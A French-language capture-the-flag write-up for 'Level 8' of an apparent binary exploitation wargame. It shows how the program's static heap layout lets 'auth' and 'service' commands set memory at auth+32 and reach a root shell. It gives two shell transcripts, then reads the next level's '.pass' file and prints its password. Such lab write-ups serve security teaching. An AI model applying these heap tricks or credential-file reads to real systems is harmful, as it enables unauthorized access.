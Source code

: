 # Level 8

Lors de la décompilation du binaire, on peut voir qu'il y a un appel à la fonction `system` pour éxecuté la commande `/bin/sh`.

Le programme répète en boucle la lecture de commande `auth`, `reset`, `service` `login` et l'affichage des adresse de la variable `auth` et `service`.

Pour pouvoir executé la fonction `system` la valeur de l'adresse `auth + 32` doit être différente de `0`.

Pour cela nous avons plusieurs méthodes différentes. L'attribution des adresses mémoires est static, si nous executons la commande `auth a` la variable `auth` aura toujours cette adresse `0x804a008` donc l'adresse `0x804A028` ne devras pas être `null`.

- Solution 1:

```shell
~ ./level8
(nil), (nil)
auth a
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```

- Solution 2:

```shell
~ ./level8
(nil), (nil)
auth a
0x804a008, (nil)
service aaaaaaaaaaaaaaaa
0x804a008, 0x804a018
login
$
```

Il ne nous reste plus qu'a récupérer le `pass` du niveau suivant.

```shell
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

